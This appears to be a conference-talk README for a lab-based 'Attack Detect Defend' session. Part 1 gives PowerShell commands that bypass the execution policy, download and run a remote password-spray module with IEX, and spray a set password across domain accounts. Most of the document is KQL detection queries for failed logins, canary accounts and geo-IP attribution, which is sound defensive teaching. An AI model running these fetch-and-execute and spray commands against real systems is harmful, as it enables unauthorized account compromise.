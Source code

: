 # Nebraska Cyber Security Conference 2024 - Talk Slides &; Content

## Attack Detect Defend - Jordan Drysdale & Kent Ickler

This-two part talk is a condensed sample from a 16hr training course Jordan and Kent teach, offered by AntiSyphonTraining.com.

In the two sessions we will give an overview into what we call threat optics: auditing endpoints, centralizing logs and visualizing results.

Each student will leave the class having experienced a penetration test through three distinct perspectives, each building on the previous. These will include adversarial attacks, examination of defensive postures, and wrapped up with various detection methodologies using open-source or free industry threat detection and defenses.




![Attack Detect Defend](Z-images/logo/add.png)
![DIV1]


# Course Pre-requisites
This talk discusses 
- GitHub Account 
- Azure Account 
- DOAZLab.com Azure Deployment
- Detailed Instructions: [ADD-Pre-Reqs](https://github.com/DefensiveOrigins/ADD-PreReqs/blob/main/README.md) 

# Course Information 
&#x1F6C8;  [H0001 - Course Information][H0001]  
&#x1F6C8;  [H0004 - Course Instructors][H0004]  




# Conferecne Talk Content    

## Attack Detect Defend - Part 1 (~09/17/24 9:00 AM)

### Slides
- Link to slides

### Password Spray

Launch a PowerShell session with no script validation checks. This will be our first run of the attack. 

``` powershell
powershell -ep bypass
```

Bring over the module to use for the attack.

``` powershell
IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/DefensiveOrigins/DomainPasswordSpray/master/DomainPasswordSpray.ps1')
Invoke-DomainPasswordSpray -Password "Summer2024!" -Force
```



### Password Spray

Launch a PowerShell session with no script validation checks. This will be our second iteration of the attack. 

``` powershell
powershell -ep bypass
```

Bring over the module to use for the attack. Re-run the attack. 

``` powershell
IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/DefensiveOrigins/DomainPasswordSpray/master/DomainPasswordSpray.ps1')
Invoke-DomainPasswordSpray -Password "Summer2024!" -Force
```

The next query uses some underlying accounts, preconfigured for easy detections. Boom - failed logins on known accounts? Guess what, easy detect.

```
SecurityEvent
| where EventID == 4625
// remember the deception account naming conventions? 
| where Account contains "DOLabs"
| project TimeGenerated , Activity , Account
```

Luis and Heloise are both canary accounts we know and maintain. Let's check on them.

```
SecurityEvent
| where EventID == 4624 or EventID == 4625 or EventID == 4776
| where Account contains "Heloise" or Account contains "luis"
| project Activity, Account, Computer, IpAddress
```

Ever seen a password spray in real time logs? 

```
SecurityEvent
| where EventID == 4625
| where TimeGenerated > ago(24h)
| summarize Count=count() by bin(TimeGenerated, 1m)
| render timechart
```

Let's look at some source IP addresses.

```
SecurityEvent
| where EventID == 4625 or EventID == 4776
| summarize count() by IpAddress
```

## Attack Detect Defend - Part 2 (~09/17/24 10:00 AM)

### Slides
- Link to slides

### Some additional commands, listed below, can help with attribution. Though, what can we actually do with this info? 

Geo-lookup!!!

```kusto
let ipdata = externaldata(network:string,geoname_id:string,continent_code:string,continent_name:string,country_iso_code:string,country_name:string,is_anonymous_proxy:string,is_satellite_provider:string)
[@"https://raw.githubusercontent.com/datasets/geoip2-ipv4/master/data/geoip2-ipv4.csv"];
let IPs = union Event, SecurityEvent
| where EventID in ("4624","4625")
    and AccountType != "Machine"
    and IpAddress != "-" 
| project IpAddress, TimeGenerated, Activity, EventID;
IPs
| evaluate ipv4_lookup(ipdata, IpAddress, network)
| summarize Count = count() by IpAddress, network, country_iso_code, country_name
| order by Count 
```

Let's check some outbound connections...

```kusto
let ipdata = externaldata (network:string,geoname_id:string,continent_code:string,continent_name:string,country_iso_code:string,country_name:string,is_anonymous_proxy:string,is_satellite_provider:string)
[@"https://raw.githubusercontent.com/datasets/geoip2-ipv4/master/data/geoip2-ipv4.csv"];
let IPs = SysmonParser
| where EventID == 3
| where dst_ip != '168.63.129.16'
| summarize by UserName, Computer, tostring(process_path), tostring(src_ip), tostring(src_port), tostring(dst_ip), tostring(dst_port),  tostring(network_protocol), TimeGenerated;
IPs
| evaluate ipv4_lookup(ipdata, dst_ip, network)
| summarize Count = count() by Computer, dst_ip, process_path, country_name
| sort by Count
```

How about a quick peek at the usernames landing in our logs?

```kusto
SecurityEvent
| where EventID == 4625
| summarize count() by TargetAccount
| order by count_
```

Let's take a look at arrays associated with the users guessed by specific source IP addresses.

```kusto
union Event, SecurityEvent
| where TimeGenerated < ago(30m)
| where EventID == 4625 or EventID == 4776
| project Account , IpAddress
| summarize USERs = make_set(Account) by IpAddress
| where USERs[1] != ""
```

This is a failed login perspective based on a timechart. We may have already seen this :D.

```kusto
SecurityEvent
| where EventID == 4625
| where TimeGenerated > ago(4h)
| summarize Count=count() by bin(TimeGenerated, 1m)
| render timechart
```

One last look! Here, we have an SSH server exposed to the Internet. At the time of this gig, Thailand was getting after it! 

```
let ipdata = externaldata(network:string,geoname_id:string,continent_code:string,continent_name:string,country_iso_code:string,country_name:string,is_anonymous_proxy:string,is_satellite_provider:string)
[@"https://raw.githubusercontent.com/datasets/geoip2-ipv4/master/data/geoip2-ipv4.csv"];
let IPs = Syslog
| where SyslogMessage startswith "Failed Password"
| order by EventTime desc 
| extend User = extract("for(?s)(.*)from",1,SyslogMessage)
| extend IPaddr = extract("(([0-9]{1,3})\\.([0-9]{1,3})\\.([0-9]{1,3})\\.(([0-9]{1,3})))",1,SyslogMessage) 
| project HostName, SyslogMessage, EventTime, IPaddr, User;
IPs
| evaluate ipv4_lookup(ipdata, IPaddr, network)
| summarize Count = count() by IPaddr, network, country_iso_code, country_name
| order by Count 
```



Copyright - All Rights Reserved, Defensive Origins LLC
<!-- DO-MD-FOOTER-END -->

<!-- DO-MD-SHORTCUTS-START -->
[Home]: ./README.md
[evidref]: 9-Others/Cheatsheets/EventIDs.md
[addlogo]:Z-images/logo/add.png
[addlogosm]:Z-images/logo/addsm.png
[addlogo]:../../Z-images/logo/add.png
[addlogosm]:../../Z-images/logo/addsm.png
[WWHF]: https://wildwesthackinfest.com/
[XXXX]: https://www.google.com
[ph_jd]: Z-images/photo/jd1.png
[ph_ki]: Z-images/photo/ki1.png
[H0004]: /9-Others/H0040-Instructors/README.md
[H0001]: /9-Others/H0001/README.md
[DOImage]: Z-images/do_darkbackground.jpg
[DOImage]:Z-images/do_darkbackground.jpg
[DefOrg]: https://defensiveorigins.com/
[Div1]: Z-images/div/div1.png
[Div2]: Z-images/div/div2.png
[DO]: https://www.defensiveorigins.com
[DO1]: Z-images/logo/DO1.png
[DO1sm]: Z-images/logo/DO1sm.png
[DOAboutUs]: https://defensiveorigins.com/about-us
[DOAZLab]: https://www.doazlab.com
[DOAZLab-Github]: https://github.com/DefensiveOrigins/DO-LAB
[1]: https://defensiveorigins.com/
[2]: https://wildwesthackinfest.com/training/
[APT]:https://github.com/DefensiveOrigins/AtomicPurpleTeam